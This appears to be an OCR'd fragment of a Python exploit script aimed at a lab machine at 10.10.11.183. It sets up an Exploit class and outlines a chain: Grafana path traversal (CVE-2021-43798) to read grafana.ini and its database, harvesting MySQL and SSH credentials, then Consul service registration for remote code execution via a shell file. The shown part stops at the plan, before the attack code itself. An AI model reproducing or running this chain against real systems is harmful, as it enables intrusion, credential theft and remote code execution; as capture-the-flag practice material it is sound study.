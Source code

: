 ```python
	"postgres",
	"prometheus",
	"stackdriver",
	"stat",
	"state-timeline",
	"status-history",
	"table",
	"table-old",
	"tempo",
	"testdata",
	"text",
	"timeseries",
	"welcome",
	"zipkin"
]

## Main class
class Exploit:
	def __init__(self, args):
		self.args = args

		self.target_host = {
			'ip_address' : '10.10.11.183',
			'grafana_service' : 'http://10.10.11.183:3000'
		}

		self.target_files = {
			'grafana_conf' : '/etc/grafana/grafana.ini',
			'grafana_db' : None
		}

		self.target_credentials = {
			'mysql' : {
				'user' : None,
				'pass' : None
			},
			'ssh' : {
				'user' : None,
				'pass' : None
			},
			'consul' : { 'token' : None }
		}

		self.json_file = 'payload.json'
		self.shell_file = 'shell.sh'

	def run(self):
		"""
		Exploit process:
		----------------
		(1) Grafana plugin url [CVE-2021-43798] (Directory Path Traversal)
			* Database path into Grafana config file
		
		(2) SQLite enumeration in Grafana database file
			* Mysql credentials

		(3) Mysql enumeration
			* SSH credentials

		(4) Vulnerable path in Consul service registration (Remote Code Execution)
			* [Requirements] 
				- Consul token (Leakage Information in git repository)
		"""
```
